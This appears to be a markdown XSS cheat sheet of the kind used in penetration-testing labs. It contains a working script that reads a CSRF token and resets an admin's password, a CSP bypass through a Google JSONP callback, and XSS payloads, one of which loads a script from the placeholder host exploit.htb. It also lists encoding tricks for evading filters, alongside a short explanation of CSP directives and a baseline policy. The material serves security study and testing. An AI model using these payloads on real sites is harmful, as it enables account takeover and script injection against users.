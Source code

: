 # XSS
## Reading CSRF token from response during XSS
```javascript
// GET CSRF token
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

// change PW
var csrf_req = new XMLHttpRequest();
var params = `username=admin&email=admin@vulnerablesite.htb&password=pwned&csrf_token=${csrftoken}`;
csrf_req.open('POST', '/home.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```

## CSP
### common directives
- **style-src**: allowed origins for stylesheets
- **img-src**: allowed origins for images
- **object-src**: allowed origins for objects such as `<object>` or `<embed>`
- **connect-src**: allowed origins for HTTP requests from scripts. For instance, using XMLHttpRequest
- **default-src**: fallback value if a different directive is not explicitly set. For instance, if the img-src is not present in the CSP, the browser will use this value instead for images
- **frame-ancestors**: origins allowed to frame the page, for instance, in an `<iframe>`. This can be used to prevent Clickjacking attacks
- **form-action**: origins allowed for form submissions

### values for directives include
- **\***: All origins are allowed
- **'none'**: No origins are allowed
- **\*.benignsite.htb**: All subdomains of benignsite.htb are allowed
- **unsafe-inline**: Allow inline elements
- **unsafe-eval**: Allow dynamic code evaluation such as JavaScript's eval function
- **sha256-407e1bf4a1472948aa7b15cafa752fcf8e90710833da8a59dd8ef8e7fe56f22d**: Allow an element by hash
- **nonce-S0meR4nd0mN0nC3**: Allow an element by nonce

### A good baseline CSP
```http
Content-Security-Policy: default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self'; frame-ancestors 'self'; form-action 'self';
```
This CSP only allows the loading of images, stylesheets, and scripts from the same origin, only allows HTTP requests from JavaScript and form submissions to the same origin, only allows the same origin to frame the web page, and prevents any other resource from loading. The CSP needs to be adjusted accordingly if any external resources are used.

### Bypass CSP
```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
```

## XSS Payloads
Using pseudoprotocols `data` and `javascript`
```html
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

<svg/onload=alert(1)>
<script/src="http://exploit.htb/exploit"></script>
```

## Advanced Bypasse
`alert(1)`
```js
# Unicode
"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"

# Octal Encoding
"\141\154\145\162\164\50\61\51"

# Hex Encoding
"\x61\x6c\x65\x72\x74\x28\x31\x29"

# Base64 Encoding
atob("YWxlcnQoMSk=")

# String.fromCharCode
String.fromCharCode(97,108,101,114,116,40,49,41)

# .source
/alert(1)/.source

# URL Encoding
decodeURI(/alert(%22xss%22)/.source)

eval("alert(1)")
setTimeout("alert(1)")
setInterval("alert(1)")
Function("alert(1)")()
[].constructor.constructor(alert(1))()

eval("\141\154\145\162\164\50\61\51")
setTimeout(String.fromCharCode(97,108,101,114,116,40,49,41))
Function(atob("YWxlcnQoMSk="))()
```

## Resources
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
- https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md
- https://html5sec.org/
- https://github.com/zigoo0/JSONBee


